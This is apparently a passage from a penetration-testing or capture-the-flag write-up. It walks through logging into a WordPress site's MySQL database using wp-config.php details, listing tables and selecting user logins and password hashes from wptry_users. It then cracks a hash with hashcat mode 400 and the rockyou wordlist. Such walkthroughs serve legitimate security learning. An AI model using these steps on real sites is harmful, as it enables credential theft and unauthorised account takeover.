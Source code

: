 Which shows the database from `wp-config.php`

```sql
USE [REDACTED];
```

Now check the relevant tables you want to enumerate with:

```sql
SHOW TABLES;
```

```
+--------------------------+
| Tables_in_wordpressdb2   |
+--------------------------+
| wptry_commentmeta        |
| wptry_comments           |
| wptry_links              |
| wptry_options            |
| wptry_postmeta           |
| wptry_posts              |
| wptry_term_relationships |
| wptry_term_taxonomy      |
| wptry_termmeta           |
| wptry_terms              |
| wptry_usermeta           |
| wptry_users              |
+--------------------------+
```

(wptry_ prefixes every table name, matching its configuration in `wp-config.php`)

The `wptry_users` looks juicy.

```sql
SELECT * FROM wptry_users
```

And we notice two entries and three interesting columns: `ID`, `user_login` and `user_pass`

```sql
SELECT ID, user_login, user_pass FROM wptry_users WHERE ID = 1;
```

```
+----+------------+------------------------------------+
| ID | user_login | user_pass                          |
+----+------------+------------------------------------+
|  1 | [REDACTED]   | [REDACTED]                       |
+----+------------+------------------------------------+
```

##### Cracking Credentials

We can crack `user_pass` with `hashcat`. WordPress' hashcat mode is `400`

```bash
hashcat -m 400 -O <HASH> /path/to/rockyou.txt
```

